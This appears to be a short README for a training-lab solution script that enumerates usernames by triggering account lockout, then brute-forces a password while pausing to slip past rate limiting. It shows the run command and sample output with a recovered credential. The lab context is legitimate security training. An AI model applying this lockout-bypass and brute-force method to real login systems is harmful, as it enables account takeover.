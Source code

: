 # Hack Steps
1. Try all users multiple times until on account is locked
2. Brute force password of that valid username
3. Wait 1 minute every 3 password tries to bypass blocking

# Run Script
1. Change the URL of the lab
2. Change the PATH of your username list
3. Change the PATH of your password list
4. Start script
```
~$ python username_enumeration_via_account_lock.py
```

# Expected Output
```
[#] Enumerate usernames..
[*] Try number 1 of all users..
Elapsed: 3 minutes || Failed: 0 || Trying (6/101): adam                                              

✅ Valid user: adam
[#] Brute forcing password..
Elapsed: 26 minutes || Failed: 0 || Trying (74/102):                                             

✅ Login successfully:  username: adam, password: joshua

Finished in: 0 minutes

Results was saved to: results

Failed users count: 0
Failed users: [  ]

Failed passwords count: 0
Failed passwords: [  ]
```

# Want to go faster?
Check the [Rust script](https://github.com/elqal3awii/WebSecurity-Academy-with-Rust/tree/main/Authentication/Username%20enumeration%20via%20account%20lock) for this lab in both single-threaded and multi-threaded approaches.
